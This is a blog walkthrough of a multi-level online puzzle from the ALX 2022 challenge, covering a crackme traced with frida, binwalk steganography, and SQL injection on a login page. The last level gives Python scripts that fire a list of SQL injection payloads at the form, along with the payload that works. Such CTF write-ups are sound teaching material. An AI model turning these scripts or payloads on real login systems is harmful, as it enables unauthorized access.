



<style>
	/*body {
		margin-left: 12.5%;
		margin-right: 12.5%;
	}*/

	code {
	/*background-color: #232323;*/
	/*color: goldenrod;*/
	/*border: green 1px solid;*/
	}

	.level-screenshots {
	padding: 5px;
	border: #975713 1px solid;
	border-radius: 5px;
	padding-right: 0px;
	display: flex;
	margin-bottom: 20px;
	}

	.img-snippet {
		margin-bottom: 20px;
		width: 80%;
		margin-left: 5%;
		margin-right: 5%;
		border-radius: 5px;
	}

	.level5-decoded {
		border: #975713 0px;
	}

	.curved-edge {
		border-radius: 10px;
	}

	#devtools {
		border: 2px solid black;
		border-bottom-width: 4px;
	}

	.level7-prep {
		border: 1px solid goldenrod !important;
		border-bottom-right-radius: 0px;
		border-bottom-left-radius: 0px;
	}

</style>

*`I would like to thank the Lord Jesus Christ, for God is the giver of wisdom, understanding and everything. I would like to thank the team at ALX for giving me the opportunity to be part of the community and grow. I would like to thank Julien for giving me the idea to even write this blog. I finally would like to thank my family, friends and everyone for their support.`*

How you can solve for Clue 3 in Game 3 of the \#ALXchallenge2022
---

This twitter feed came up, I was stuck at Level 23 by the time I saw this 

<!--  -->
<div class="img-snippet">
	
</div>

So as we can see from the tweet, the clue can be found some where inside the domain [`venicodivici.co`](http://venicodivici.co)

### Level 0

The first thing that came up when I clicked on the link was 

<div class="level-screenshots width1">
	
</div>

If you have been following [Julien](https://www.youtube.com/@0xJulien) for anytime now, you would immediately realize that he did a live stream called [`Live: Let's play with DALL-E 2, Midjourney 4 & Nijijourney`](https://www.youtube.com/watch?v=idbJhEdJI2w)

The first answer I thought of was `Midjourney`, on entering the answer according to the format specified, you get [`http://venicodivici.co/midjourney.html`](http://venicodivici.co/midjourney.html), which led me to Level 1

### Level 1

<!--  -->
<div class="level-screenshots">
	
</div>


`10011101 << 3`, at first I copied this directly into a javascript console and got `80088808`, until I realized the first operand was binary not decimal so I prepended `0b` to tell **JS**, `10011101` is binary, after I made the correction I got the following result

```js
> 0b10011101 << 3
1256
```

So our endpoint for entering level 2 becomes: [`http://venicodivici.co/1256.html` ](http://venicodivici.co/1256.html)

### Level 2

<!--  -->
<div class="level-screenshots">
	
</div>

A quick google search of the question will give the answer: `Guido van Rossum`
Our next endpoint: [`http://venicodivici.co/guido.html` ](http://venicodivici.co/guido.html)

### Level 3

<!--  -->
<div class="level-screenshots">
	
</div>

I like vim, but I don't hate emacs, but I wanted to go to the next level, so I prepended `view-source:` before the beginning of the url inside the address bar


As we can see from the image above, `#teamVim` links to the page itself, and `/teamEmacs.html` takes us to another level.

Our next endpoint: [`http://venicodivici.co/teamEmacs.html` ](http://venicodivici.co/teamEmacs.html)

### Level 4

<!--  -->
<div class="level-screenshots">
	
</div>

After downloading the [crackme](http://www.venicodivici.com/crackmeclue3), we conduct some basic static and dynamic analysis to understand how it works. For those that are new to reverse engineering, *Static Analysis* is the analysis and study of applications without running those applications, it usually gives you an idea on what functions and methods are available and goes side by side with *Dynamic Analysis* which deals with analysis of apps at runtime.

**Static Analysis**

Checking all the decodable strings inside the crackme for the potential password, the following are some of the interesting strings I've found:

```sh
$ strings crackmeclue3  
...
libc.so.6
puts
...
strcmp
...
vimisbetH
terthaneH
macs
...
OK :)
Try again
...
GCC: (Ubuntu 9.4.0-1ubuntu1~20.04.1) 9.4.0
...
main2.c
...
puts@@GLIBC_2.2.5
...
strcmp@@GLIBC_2.2.5
...
main
...
```

We can see the shared object `libc.so`. Some functions that seem to be utilized are `puts`, to return strings to the standard output and  `strcmp` , to compare two strings. The message on failure `Try again` and the message on success `OK :)` are also noticeable. We can also see the type of compiler and system used to compile the executable `GCC: (Ubuntu 9.4.0-1ubuntu1~20.04.1) 9.4.0` and some regions of strings that seem to say `vimisbetterthanemacs`, which could be our passphrase

We give the crackme permissions to be executable

```sh
$ chmod u+x crackmeclue3
```
So testing our potential passphrase

```sh
$ ./crackmeclue3 vimisbetterthanemacs
Try again
```

Let's go deeper and see if we can get further than this, so let's use `xxd` which is hexdump tool (and we also use `less` here to keep the terminal as clean as possible, by redirecting the output)

```sh
$ xxd crackmeclue3 | less
...
000011a0: 2528 0000 0048 8945 f831 c048 b876 696d  %(...H.E.1.H.vim
000011b0: 6973 6265 7448 ba74 6572 7468 616e 6548  isbetH.terthaneH
000011c0: 8945 e048 8955 e8c7 45f0 6d61 6373 c645  .E.H.U..E.macs.E
000011d0: f400 c645 e577 c645 e66f c645 e772 c645  ...E.w.E.o.E.r.E
000011e0: e873 c645 e974 c645 ea2e 837d dc02 752c  .s.E.t.E...}..u,
...
```

Let's make sense of the result above. There are basically 3 columns, the left column indicates the file offset of the row, the next two columns show the data in hex and as text respectively. At the offsets `000011a0`, `000011b0` and `000011c0`, we can see the text we found earlier, if we take a closer look at the offsets `000011d0` and `000011e0`, you can make out the letters `w`, `o`, `r`, `s`, `t` surrounded by `.E`, thus adding those characters to the our initial passphrase we get `vimisbetterthanemacsworst`

```sh
$ ./crackmeclue3 vimisbetterthanemacsworst
Try again
```
**Dynamic Analysis**

By this time I decided to move on to the dynamic analysis, I initially tried `objdump` and `gdb`, but seeing as I was not going as far as I expected with it, I moved to a tool I had an opportunity to use in the past known as `frida`, which is a dynamic intrumentation toolkit, which allows you to hook into applications at runtime and tamper with their functions, their memory space and easily (more or less) replace those functions with your custom functions and other fun stuff.

To install frida (you'll need python and pip installed for this)

```sh
$ sudo pip install frida-tools
```

Among some of the tools that come prepackaged with `frida` toolset, one of the tools is called `frida-trace` which allows you to trace functions and see there arguments and so on. So let's trace the functions inside our crackme.

After navigating to the directory where we have stored our crackme, we run the following command:

```sh
$ frida-trace ./crackmeclue3 thismaybethepassword -i strcmp
```

We are using `frida-trace` to run `crackmeclue3` with the argument `thismaybethepassword` as our password and we are using the `-i` flag to include the function `strcmp`, which we would like to trace (we are assuming here that `strcmp` is used to check if the password is actually correct) and we get the following

<!--  -->
<div class="img-snippet">
	
</div>

`frida-trace` generates a function handler file `strcmp.js` inside the path `./__handlers__` if the `strcmp` function is found (which it is and is also part of `libc-2.33.so` shared library) and the handler by default logs what the arguments are and how long it took to trace the function, it took `90ms` on my machine. We can also see the string I passed as a password and the string it compared it with (which is the actual password we want). The program returns an error message `Try again` since we passed in an incorrect password.

```sh
$ ./crackmeclue3 vimisworst.thanemacs
OK :)
```

Since we have successfully cracked the crackme, our next endpoint becomes: [`http://venicodivici.co/vimisworst.thanemacs.html` ](http://venicodivici.co/vimisworst.thanemacs.html)

### Level 5

<!--  -->
<div class="level-screenshots">
	
</div>

When I first saw this, I initially thought it was morse code, but a quick google search shows that there's an actual language named Brainfuck. Luckilly, I found an [online decder](https://www.dcode.fr/brainfuck-language), which translated this gibberish to plaintext

<!--  -->
<div class="level-screenshots level5-decoded">
	
</div>

Our next endpoint: [`http://venicodivici.co/57364n0.html` ](http://venicodivici.co/57364n0.html)

`57364n0` is written in leet alphabet spelling it to the normal english alphabet gets us `STEGANO`, which is a Greek word meaning *to hide or conceal.*

### Level 6

<!--  -->
<div class="level-screenshots">
	
</div>

When this page came up there wasn't anything else except for the [image](http://venicodivici.co/images/img.png) and a quick inspection of the tweet button shows
	
	...
	Status: There is only an image? [Game 3 -> Clue 3 -> Level 6] ...

So I thought there must be something inside the image, and started looking for steganography tools and while I was reading this [article](https://infosecwriteups.com/beginners-ctf-guide-finding-hidden-data-in-images-e3be9e34ae0d) I stumbled upon **`binwalk`**, which helps in identifying if files are embedded inside other files in our case an image. Fortunately the tool came with my linux distribution, so I didn't have to install it

```sh
$ binwalk img.png

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             PNG image, 1024 x 1024, 8-bit/color RGB, non-interlaced
41            0x29            Zlib compressed data, default compression
1573270       0x180196        Zip archive data, at least v1.0 to extract, name: nextlevel/
1573338       0x1801DA        Zip archive data, at least v1.0 to extract, compressed size: 20, uncompressed size: 20, name: nextlevel/url.txt
1573600       0x1802E0        End of Zip archive, footer length: 22
```

We can see at the hex file offset location `0x1801DA`,  there's a path inside `nextlevel/url.txt` that could lead us to the next level.
So we use the `-e` flag to extract the embedded data using `binwalk`

```sh
	$ binwalk -e img.png
```

After extracting the files a new directory is generated with the name of the img, `_img.png.extracted`, navigating inside the directory and locating the path: `nextlevel/url.txt`, the `url.txt` contains the following text: `/identification.php`

My friend [Nati M Dessie](https://twitter.com/NManyazewal), told me you can also use `strings`, which achieves the same result:

```sh
	$ strings img.png
	...
	nextlevel/UT
	nextlevel/url.txtUT
	/identification.php
	nextlevel/UT
	nextlevel/url.txtUT
```

Our next endpoint: [`http://venicodivici.co/identification.php` ](http://venicodivici.co/identification.php)

### Level 7

<!--  -->
<div class="level-screenshots">
	
</div>

I tried some random username of `test` and password  of `test` to see if it would log me in, and this page came up

<!--  -->
<div class="level-screenshots">
	
</div>

I tried a few username password combinations and sice I was exhausted from the day, I just slept on the problem. The next day I realized when there is a login form, it means the form system is potentially vulnerable to **SQL Injection** attacks.

I first tried the single quote chatacter `'` only on the username field and this page came up

<!--  -->
<div class="level-screenshots">
	
</div>

After trying out different SQL injection commands that came to my mind, I got bored and a day or so later I asked [Julien](https://twitter.com/julienbarbier42) wanting to know if the level was over (I assumed it was) and he responded as follows and it some what reinvigorated me to keep on trying.

<!--  -->
<div class="img-snippet">
	
</div>

I went on google to find a `list of SQL Injection payloads` and I grabbed the first result that came up

<!--  -->
<div class="img-snippet">
	
</div>

The [SQL Injection Payload List](https://github.com/payloadbox/sql-injection-payload-list) repo had a list of different kinds of injection attacks

I then copy the first list that was labeled `Generic SQL Injection Payloads`, removed the comments and save it to a file called `payloads-1.txt` in my working directory

I then use the network debugger inside developer tools to remake the request (I'm using Firefox here, so its easy to edit and resend requests, for those using Chrome-based browsers you can use API Testing chrome extensions like `JaSON` or `Talend API Tester`)

Open Developer tools by pressing `Ctrl + Shift + I` and navigate to the `Network tab` and enable network log persitance (Persist Logs in Firefox and Preserve Log in Chrome)

<!--  -->


We then make a request to the server. I made a request with a username of `test` and I left the password field empty, when I clicked on the Login button
some requests got logged

<!--  -->
<div class="img-snippet">
	
</div>

The one we are interested in is, the first request which has a status code `200 OK`, it's also a `POST` request, which is most of the time used to send data to the server, the request headers and request payloads are as follows

<!--  -->
<!--  -->

<div class="img-snippet" style="display: flex;">
    <div style="margin-right: 5px;">
        
    </div>
    <div style="margin-left: 5px;">
        
    </div>
</div>

Combining all this into a python script, we get the following script. The reason I have used the `aiohttp` library instead of the usual `requests` is because, I was expecting to make requests of the entire *SQL Injection Payloads List*, which we saw available on [this github repo](https://github.com/payloadbox/sql-injection-payload-list) and with that scale the `requests` library is very slow

I saved the following python script as `venicodivici.py`

```py
#!/usr/bin/python3

# Import standard library for asynchronous input/output
# It's actually important because we need an event loop
# that will run our courotines (asynchronus functions)
import asyncio
# Import an asynchronus library for making requests and creating
# servers (much like flask, but async)
import aiohttp

# read the payloads file and store result as a list in
# the variable sql_payloads
with open('payloads-1.txt') as f:
    sql_payloads = f.readlines()

url = "http://venicodivici.co/identification.php"

# The necessary request headers for the request to succeed
headers = {
        "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0",
        "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8",
        "Accept-Language": "en-US,en;q=0.5",
        "Content-Type": "application/x-www-form-urlencoded"
    }

async def request_maker(session, sql_payload):
	# prepare request payload
    request_payload = f"submitted=1&username={sql_payload}&password="
    async with session.post(url, headers = headers, data = request_payload) as resp:
            # when awaiting or waiting for the response to come, other coroutines can run
            # during that waiting time
            res = await resp.text()
            # print the payload and html response
            print(f"{sql_payload} <>>> {res}")

async def main():
	# Create a list to hold our coroutines
    l = []
    # Create a request session object, which allows us to utilize
    # the same session, cookies and keeps connection alive
    async with aiohttp.ClientSession() as session:
    	# Prepare and store all coroutines that will perform the sql injection
        for sql_payload in sql_payloads:
            l.append(request_maker(session, sql_payload))
        # the gather method allows any available coroutines to run when there is
        # an awaitable (something that waits for something)
        await asyncio.gather(*l)
# Get an event loop and run the coroutine: main
asyncio.run(main())

```

For anyone interested in the `requests` version, here it is as follows

```py
#!/usr/bin/python3

# Import a synchronous request library
import requests

# read the payloads file and store result as a list in
# the variable sql_payloads
with open('payloads-1.txt') as f:
    sql_payloads = f.readlines()

url = "http://venicodivici.co/identification.php"

# The necessary request headers for the request to succeed
headers = {
        "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0",
        "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8",
        "Accept-Language": "en-US,en;q=0.5",
        "Content-Type": "application/x-www-form-urlencoded"
    }

def request_maker(sql_payload):
	# prepare request payload
    request_payload = f"submitted=1&username={sql_payload}&password="
    # Make a post request to sever
    resp = requests.post(url, headers = headers, data = request_payload)
    # Parse text response from server
    res = resp.text           
    # print the payload and html response
    print(f"{sql_payload} <>>> {res}")

def main():
    for sql_payload in sql_payloads:
        request_maker(sql_payload)

if __name__ == '__main__':
	main()

```

To execute the async version you first need to install `aiohttp` and libraries that improve its performance

```sh
$ sudo pip install aiohttp aiodns cchardet
```

After running `venicodivici.py`, this is the result I got:

```sh
$ python venicodivici.py
...
admin" or 1=1/*
 <>>> <center>Wrong password. Try again.<br /></center>
admin' or 1=1--
 <>>> <center>You are onto something...<br /></center>
admin'or 1=1 or ''='
 <>>> <center>Welcome, H4ck3R! Clue #3 for the last level "Are you clueless" is "baguette" (lower case)<br />Time to brag on Twitter!!          <a href="https://twitter.com/intent/tweet?ref_src=twsrc%5Etfw" class="twitter-hashtag-button"
        data-text="I have found @alx_africa #ALXchallenge2022 clue #3 (needed for the last level) \o/
THANK YOU @karoub, @guillaumesalva, @gautie_a, @julienbarbier42, @0xAuntyBetty and @FredSwaniker! This one was tough and fun! #dohardthings"
                 data-show-count="true">Tweet</a>
  <script async src="https://platform.twitter.com/widgets.js" charset="utf-8"></script>
        <br />
        <br />
</center>
...
```

So our SQL payload password becomes `admin'or 1=1 or ''='`, we can also see we found clue 3, which is `baguette`, but for those who still would like to see what it looks like in the browser here it is (entering it on either the username, password field or both fields works fine)

<!--  -->
<div class="level-screenshots" style="width: 70%;padding: 0 1% 0 1%;margin-left: 12.5%;">
	
</div>

That was all for clue 3, thank you for reading thus far my friend :)